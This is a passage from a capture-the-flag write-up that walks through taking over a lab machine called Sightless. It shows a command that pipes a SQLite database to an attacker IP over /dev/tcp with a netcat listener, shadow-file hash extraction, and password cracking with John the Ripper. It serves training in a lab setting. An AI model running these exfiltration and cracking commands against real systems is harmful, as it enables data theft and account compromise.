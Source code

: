 1.  There is a file named ‘sqlpad.sqlite’ in the current directory, we can send the file to our machine using nc and check for any passwords. #userflag #netcat 

**_Command — send file via nc: cat_**

```
cat sqlpad.sqlite > /dev/tcp/10.10.14.156/9001
```

**_Command — receive the file via nc: nc_**

```
nc -nvlp 9001 > sightless.sqlite
```

**_Command — dump SQLite DB: sqlite3_** #sqlite3

```
sqlite3 sightless.sqlite .dump 
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*kmLd3XW01FbSSchuyRMRbA.png)

2. The hash inside the file is a password for sqlpad admin. We don’t need it for now.

3. Let’s examine the users in the docker container.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*ngqZzzqGKc_k6eblgCKtGA.png)

4. We can check the shadow file to find the hash of the user ‘michael’.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*4U9ed8i_2NkZLqLRRawENg.png)

5. Let’s crack the hash of the user Michael using john. #JohnTheRipper 

**_Command — Crack the Hash: john_**

```
john michael.hash --wordlist=/mnt/HDD1/VM\ files/kali/wordlists/rockyou.txt --format=sha512crypt 
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*BQdeCEa5VlPFqxh55Hd1Jw.png)

**Note: You can identify the hash type using any hash identifier site.**

https://hashes.com/en/tools/hash_identifier

4. Let’s use this password for the user ‘michael’.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*owUam25UF_jpxFik02-U8A.png)

ii. Root Flag
-------------

1.  Let’s first check the processes running as usual #rootflag #PrivilegeEscalation 

**_Command — Running processes: ps_** #ps

```
ps -ef --forest
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*m-qJxQzZDAf3h-ltIRDdkw.png)
